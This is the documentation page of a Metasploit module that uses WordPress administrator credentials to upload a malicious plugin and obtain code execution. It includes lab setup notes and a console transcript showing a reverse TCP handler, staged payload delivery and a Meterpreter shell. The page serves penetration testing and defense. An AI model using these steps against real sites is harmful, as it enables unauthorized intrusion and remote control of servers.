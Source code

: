 ## Vulnerable Application

This module takes an administrator username and password, logs into the
admin panel, and uploads a payload packaged as a WordPress plugin.
Because this is authenticated code execution by design, it should work
on all versions of WordPress.

### Vulnerable Application Installation

You can get WordPress from [https://wordpress.org/download/](https://wordpress.org/download/)
or from some Linux package managers. [Debian maintains an installation
guide](https://wiki.debian.org/WordPress) that also works on Ubuntu.
Note that in a default install of WP from apt, the plugins directory is
owned by root, so unless you chown it to the web user, this module will
not work. Doing so is common in real-world deployments to allow
legitimate administrators to install plugins, so it is not unreasonable
for your own installation.


## Verification Steps

```
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf exploit(wp_admin_shell_upload) > set PASSWORD password
PASSWORD => password
msf exploit(wp_admin_shell_upload) > set TARGETURI /wp/
TARGETURI => /wp/
msf exploit(wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Authenticating with WordPress using admin:password...
[+] Login successful
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Acquired a plugin upload nonce: afa507398f
[*] Uploaded plugin iHNhrYLmGR
[*] Executing the payload at /wp/wp-content/plugins/iHNhrYLmGR/DcrpFXPOCG.php...
[*] Sending stage (33986 bytes) to 192.168.100.131
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.131:40039) at 2017-04-21 11:36:33 -0500
[+] Deleted DcrpFXPOCG.php
[+] Deleted iHNhrYLmGR.php

meterpreter > pwd
/var/lib/wordpress/wp-content/plugins/iHNhrYLmGR
meterpreter >
```


